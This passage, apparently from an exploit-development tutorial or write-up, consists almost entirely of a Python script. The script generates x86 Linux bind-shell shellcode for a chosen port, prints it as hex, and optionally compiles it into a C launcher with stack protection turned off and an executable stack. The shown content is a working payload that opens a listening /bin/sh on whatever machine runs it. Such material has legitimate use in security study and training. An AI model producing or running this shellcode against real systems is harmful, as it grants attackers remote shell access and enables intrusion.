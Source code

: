 
And the final Python implementation:

```python
#!/usr/bin/python

#####	Generate bind shellcode

import sys
import struct

if len(sys.argv) < 2 or int(sys.argv[1]) not in range(1,65536):
	sys.exit("Usage: bind.py [1-65535] [compiled.elf]")

port = struct.pack(">H", int(sys.argv[1]))

shellcode = (
	"\x31\xc0\x31\xdb\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xb3\x01"
	"\xb0\x66\xcd\x80\x89\xc6\x31\xc0\xb0\x01\x50\x89\xe1\x51"
	"\x40\x50\x48\x50\x56\x89\xe1\xb3\x0e\xb0\x66\xcd\x80\x31"
	"\xc0\x50\x66\x68"+port+"\x66\x6a\x02\x89\xe1\x6a\x10\x51"
	"\x56\x89\xe1\xb3\x02\xb0\x66\xcd\x80\x66\x68\x02\x10\x56"
	"\x89\xe1\xb3\x04\xb0\x66\xcd\x80\x31\xc0\x50\x50\x56\x89"
	"\xe1\xb3\x05\xb0\x66\xcd\x80\x89\xc7\x31\xc9\xb1\x02\x89"
	"\xfb\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68"
	"\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2"
	"\x53\x89\xe1\xb0\x0b\xcd\x80\xe9\x76\xff\xff\xff"
	)

print
print "Shellcode Length: %d" % len(bytearray(shellcode))
print
sc = ""
for c in bytearray(shellcode):
	sc += "\\x%02x" % c
print sc


#####	Generate an executable 		


if len(sys.argv) < 3: sys.exit()

import os

skeleton = '''
#include<stdio.h>
#include<string.h>
unsigned char code[] = "__SHELLCODE__";
void main()
{
	printf("Shellcode Length: %d\\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
'''

skeleton = skeleton.replace("__SHELLCODE__", sc)

with open("a.c", "w") as f:
	f.write(skeleton)

os.system("gcc a.c -fno-stack-protector -z execstack")
os.rename("a.out", sys.argv[2])
os.remove("a.c")
```